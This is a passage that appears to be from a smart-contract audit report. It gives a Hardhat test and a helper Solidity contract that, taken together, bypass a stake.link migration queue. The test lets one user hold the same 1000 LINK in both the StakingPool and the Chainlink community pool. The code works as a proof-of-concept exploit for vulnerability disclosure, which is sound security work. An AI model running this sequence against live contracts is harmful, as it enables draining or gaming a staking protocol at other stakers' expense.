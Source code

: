 ```javascript
  // 1. call initiate migration
  await migrator.initiateMigration(toEther(1000))

  // 2. unstake
  await communityPool.unstake(toEther(1000))

  // 3. transfer the existing position to a contract you control
  await token.transfer(chainlinkPosition.target, toEther(1000))
  await chainlinkPosition.deposit()

  // 4. transferAndCall a new position bypassing the queue
  await token.transferAndCall(
    migrator.target,
    toEther(1000),
    ethers.AbiCoder.defaultAbiCoder().encode(['bytes[]'], [[encodeVaults([])]])
  )
  await ethers.provider.send('evm_mine')
  await ethers.provider.send('evm_setAutomine', [true])

  // user has both a 1000 LINK position in stake.link StakingPool and chainlink community pool
  assert.equal(fromEther(await communityPool.getStakerPrincipal(accounts[0])), 0)
  assert.equal(fromEther(await stakingPool.balanceOf(accounts[0])), 1000)
  assert.equal(fromEther(await communityPool.getStakerPrincipal(chainlinkPosition.target)), 1000)

  // community pool is full again
  assert.equal(fromEther(await communityPool.getTotalPrincipal()), 3000)
  assert.equal(fromEther(await stakingPool.totalStaked()), 2000)
  assert.deepEqual(await migrator.migrations(accounts[0]), [0n, 0n, 0n])
})
```
Along with `ChainlinkPosition.sol`:
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "./interfaces/IStaking.sol";
import "../core/interfaces/IERC677.sol";

contract ChainlinkPosition {

    IStaking communityPool;
    IERC677 link;

    constructor(address _communityPool, address _link) {
        communityPool = IStaking(_communityPool);
        link = IERC677(_link);
    }

    function deposit() public {
        link.transferAndCall(address(communityPool), link.balanceOf(address(this)), "");
    }
}
```
